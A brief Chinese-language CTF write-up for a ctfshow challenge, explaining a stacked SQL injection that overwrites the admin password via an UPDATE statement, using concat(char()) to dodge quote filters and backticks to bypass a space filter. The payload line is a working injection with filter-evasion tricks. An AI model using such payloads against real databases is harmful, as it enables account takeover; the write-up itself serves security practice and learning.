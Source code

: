 # 知识点
# 思路
运用堆叠注入update更行admin的pass值，字符串用concat(char())代替绕过单双引号的过滤，空格过滤用反引号绕过
```python
0;update`ctfshow_user`set`pass`=concat(char(48),char(49))where`username`=concat(char(97),char(100),char(109),char(105),char(110));
```
再输入concat(char(97),char(100),char(109),char(105),char(110)) -> 'admin'     pass -> 01成功获得flag<br />![image.png](./images/20231017_2351514425.png)
